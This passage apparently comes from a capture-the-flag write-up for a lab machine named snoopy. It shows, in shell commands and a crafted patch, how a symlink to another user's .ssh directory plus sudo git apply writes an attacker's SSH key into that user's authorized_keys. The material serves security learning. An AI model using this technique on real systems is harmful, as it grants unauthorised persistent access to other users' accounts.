     
    
    cbrown@snoopy:/dev/shm$ mkdir ssh
    cbrown@snoopy:/dev/shm$ cd ssh/
    cbrown@snoopy:/dev/shm/ssh$ git init
    Initialized empty Git repository in /dev/shm/ssh/.git/
    cbrown@snoopy:/dev/shm/ssh$ ln -s /home/sbrown/.ssh symlink
    cbrown@snoopy:/dev/shm/ssh$ git add symlink 
    cbrown@snoopy:/dev/shm/ssh$ git commit -m "add symlink"
    [main (root-commit) 4f69273] add symlink
     1 file changed, 1 insertion(+)
     create mode 120000 symlink
    

I’ll create a `patch` file again, this time changing `0xdf` to
`authorized_keys`, and `busted` to an SSH public key:

    
    
    diff --git a/symlink b/renamed-symlink
    similarity index 100%
    rename from symlink
    rename to renamed-symlink
    --
    diff --git /dev/null b/renamed-symlink/authorized_keys
    new file mode 100644
    index 0000000..039727e
    --- /dev/null
    +++ b/renamed-symlink/authorized_keys
    @@ -0,0 +1,1 @@
    +ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    

When I run this, it fails:

    
    
    cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply -v patch
    [sudo] password for cbrown: 
    warning: unable to unlink 'symlink': Permission denied
    error: unable to write file 'renamed-symlink' mode 120000: No such file or directory
    

The `warning` is important to notice here. It’s trying to “unlink” `symlink`
and failing. That’s because sbrown doesn’t have permissions to. The directory
is owned by cbrown, and all users can’t write to it:

    
    
    cbrown@snoopy:/dev/shm$ ls -l
    total 0
    drwxrwxr-x 3 cbrown cbrown 100 May 10 16:27 poc
    drwxrwxr-x 3 cbrown cbrown 100 May 10 16:32 ssh
    

If I change the permissions on the dir such that all users can write, it works
without error:

    
    
    cbrown@snoopy:/dev/shm$ chmod 777 ssh/
    cbrown@snoopy:/dev/shm$ cd ssh/
    cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply patch
    cbrown@snoopy:/dev/shm/ssh$
    